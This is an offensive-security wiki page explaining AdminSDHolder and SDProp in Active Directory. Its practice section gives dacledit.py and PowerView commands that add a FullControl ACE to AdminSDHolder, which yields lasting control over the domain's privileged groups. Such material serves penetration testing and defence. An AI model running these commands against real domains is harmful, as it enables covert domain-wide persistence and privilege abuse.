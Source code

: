 ```yaml
---
authors: ShutdownRepo
category: ad
---
```


# AdminSDHolder

## Theory

AdminSdHolder protects domain objects against permission changes. "AdminSdHolder" either refers to a domain object, a "worker code" or an operation depending on the context. 

The operation consists in the PDC (Principal Domain Controller) Emulator restoring pre-set permissions for high-privilege users every 60 minutes. Understanding what DACLs/ACEs are and how to abuse them is a requirement to the understanding of this persistence technique (see [Access Controls abuse](../movement/dacl/)).

The operation is conducted by a "worker code" called SDProp (Security Descriptor propagator). 

SDProp propagates AdminSdHolder's Security Descriptor (which contains the DACL) to every protected object every 60 minutes if their SD is different.

The AdminSdHolder object is located at `CN=AdminSdHolder,CN=SYSTEM,DC=DOMAIN,DC=LOCAL`. For instance, the default AdminSdHolder object's DACL contains the following.

* Authenticated Users: Read
* SYSTEM: Full Control
* Administrators: Modify
* Domain Admins: ReadAndExecute
* Enterprise Admins: ReadAndExecute

The default protected objects are the following.

* member users (possibly nested) of the following groups: `Account Operators`, `Administrators`, `Backup Operators`, `Domain Admins`, `Domain Controllers`, `Enterprise Admins`, `Print Operators`, `Read-only Domain Controllers`, `Replicator`, `Schema Admins`, `Server Operators`
* the following users: `Administrator`, `krbtgt`

> [!TIP]
> It's worth noting the members of the `Domain Controllers` and `Read-Only Domain Controllers` groups are not protected ([source](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-adts/a0d0b4fa-2895-4c64-b182-ba64ad0f84b8)), only the groups are.

> [!TIP]
> When talking about `AdminSdHolder`, the `AdminCount` attribute is usually mentioned. This attribute is automatically set on an object when adding it to a protected group. Originally, the purpose was to improve SDProp's performance. `AdminCount` cannot be used for malicious purposes and is now mainly informative.
> 
> Also, `AdminCount` will block inheritance. This means that setting inheritence in the ACE added to `AdminSdHolder` will be mostly useless. For instance, domain controllers objects are part of the Domain Controller group (at `CN=Domain Controllers,CN=Users`) which has `AdminCount` set to 1. While a new ACE set to `AdminSdHolder` will propagate to the group, its members will not inherit it.

## Practice

Once sufficient privileges are obtained, attackers can abuse AdminSdHolder to get persistence on the domain by modifying the AdminSdHolder object's DACL. 

Let's say an attacker adds the following ACE to AdminSdHolder's DACL: `attackercontrolleduser: Full Control`.

At the next run of SDProp, `attackercontrolleduser` will have a `GenericAll` privilege over all protected objects (Domain Admins, Account Operators, and so on).

::: tabs

=== UNIX-like

From UNIX-like systems, this can be done with [Impacket](https://github.com/SecureAuthCorp/impacket)'s dacledit.py (Python).


```bash
dacledit.py -action 'write' -rights 'FullControl' -principal 'controlled_object' -target-dn 'CN=AdminSDHolder,CN=System,DC=DOMAIN,DC=LOCAL' 'domain'/'user':'password'
```

AdminSdHolder's DACL can then be inspected with the same utility.

```bash
dacledit.py -action 'read' -target-dn 'CN=AdminSDHolder,CN=System,DC=DOMAIN,DC=LOCAL' 'domain'/'user':'password'
```


=== Windows

This can be done in PowerShell with `Add-DomainObjectAcl` from [PowerSploit](https://github.com/PowerShellMafia/PowerSploit)'s [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1) module.

```powershell
Add-DomainObjectAcl -TargetIdentity 'CN=AdminSDHolder,CN=System,DC=DOMAIN,DC=LOCAL' -PrincipalIdentity spotless -Verbose -Rights All
```

AdminSdHolder's DACL can then be inspected with `Get-DomainObjectAcl`.

```powershell
# Inspect all AdminSdHolder's DACL
Get-DomainObjectAcl -SamAccountName "AdminSdHolder" -ResolveGUIDs

# Inspect specific rights an object has on AdminSdHolder (example with a user)
sid = Get-DomainUser "someuser" | Select-Object -ExpandProperty objectsid
Get-DomainObjectAcl -SamAccountName "AdminSdHolder" -ResolveGUIDs | Where-Object {$_.SecurityIdentifier -eq $sid}
```

:::


## Resources

[https://adsecurity.org/?p=1906](https://adsecurity.org/?p=1906)

[https://docs.microsoft.com/en-us/archive/blogs/askds/five-common-questions-about-adminsdholder-and-sdprop](https://docs.microsoft.com/en-us/archive/blogs/askds/five-common-questions-about-adminsdholder-and-sdprop)

[https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/how-to-abuse-and-backdoor-adminsdholder-to-obtain-domain-admin-persistence](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/how-to-abuse-and-backdoor-adminsdholder-to-obtain-domain-admin-persistence)
